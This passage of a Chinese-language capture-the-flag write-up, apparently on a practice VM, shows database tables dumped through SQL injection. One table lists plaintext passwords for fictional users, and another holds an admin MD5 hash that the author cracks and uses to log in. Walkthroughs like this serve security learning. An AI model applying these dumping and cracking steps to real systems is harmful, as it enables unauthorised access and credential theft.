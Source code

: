 先爆一下Users

只有一张表，表里的数据如下

```shell
Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+
```

以为是管理页面的登录名和密码，但是试了一下发现不是。。。。。先放着

在Staff里发现了一条

```
Database: Staff
Table: Users
[1 entry]
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+
```

反查md5发现是 transorbital1

登上去以后发现能Add Record
